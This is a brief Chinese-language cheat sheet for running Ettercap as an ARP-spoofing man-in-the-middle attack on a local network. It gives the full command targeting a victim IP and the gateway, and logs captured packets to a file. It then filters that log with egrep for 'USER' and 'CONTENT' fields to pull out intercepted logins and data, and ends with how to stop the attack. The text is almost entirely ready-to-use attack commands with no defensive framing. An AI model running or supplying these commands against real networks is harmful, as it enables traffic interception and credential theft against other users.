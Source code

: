 
# 命令行运行Ettercap

## 攻击命令
```
ettercap –i –eth0 –Tq –M arp:remote/被攻击者的ip//网关的ip/ >>b.txt
T：指的是text文本模式
q：指的是安静模式执行这个命令
i：后面跟的是连接局域网的网卡
M：后面跟的是指定使用arp的方式
remote 表示双向攻击
>>：输出文件(追加, 不存在就新建文件)
> : 清空原来的文件内容, 再输入新的内容(不存在就新建we年)


# 示例:
ettercap -T -i eth0  -M arp:remote /192.168.110.1// /192.168.110.11// 
```
> **一定要加 q 这个参数, 并且要保存, 不然, 抓到的包都找不到了.**


## 查看日志
```
tail -f b.txt

停止查看：
CTRL+C


# tail 用法
-f 循环读取
-q 不显示处理信息
-v 显示详细的处理信息
-c<数目> 显示的字节数
-n<行数> 显示文件的尾部 n 行内容
--pid=PID 与-f合用,表示在进程ID,PID死掉之后结束
-q, --quiet, --silent 从不输出给出文件名的首部
-s, --sleep-interval=S 与-f合用,表示在每次反复的间隔休眠S秒
```


## 只查看USER 和CONTENT
```markdown
tail -f b.txt | egrep "USER|CONTENT"

# 注意常用 egrep 过滤多字段, 这样比 只过滤一个字段准确.
```

## 停止攻击
> 直接Ctrl + C 

